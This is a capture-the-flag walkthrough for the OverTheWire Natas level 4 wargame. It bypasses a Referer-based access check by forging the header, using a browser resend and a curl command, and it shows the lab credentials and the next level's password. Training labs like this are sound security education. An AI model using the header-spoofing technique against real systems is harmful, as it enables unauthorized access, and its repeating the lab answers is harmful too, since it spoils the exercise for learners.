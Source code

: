 On this page, it says this:
```html
Access disallowed. You are visiting from "" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
```

with a "Refresh Page" button. The "Refresh page" button is just a link to `index.php`

Pressing the "Refresh Page" button, the text changes to this:
```html
Access disallowed. You are visiting from "http://natas4.natas.labs.overthewire.org/" while authorized users should come only from "http://natas5.natas.labs.overthewire.org/"
```

So the page is detecting where we are coming from, but how?

My guess is that the http request that the "Refresh Page" button is sending has a `Referer` header. The `Referer` contains the absolute or partial address from which resource has been requested. It allows a server to identify referring pages that people are visiting from or where requested resources are being used

If I check the headers for the page when I hit the "Refresh Page" button, I can see the `Referer` header like this:
```
|Referer|[http://natas4.natas.labs.overthewire.org/]
```

So the page is probably using the `Referer` header to detect where we're coming from

So how can we exploit this. We can resend an http request with a modified `Referer`. I used the `resend request` in the inspector page and we get this response:
```html
Access granted. The password for natas5 is Z0NsrtIkJoKALBCLi5eqFfcRN82Au2oD
```

Alternatively, we can use curl to send a request:
```sh
curl -u natas4:tKOcJIbzM4lTs8hbCmzn5Zr4434fGZQm --referer http://natas5.natas.labs.overthewire.org/ http://natas4.natas.labs.overthewire.org
```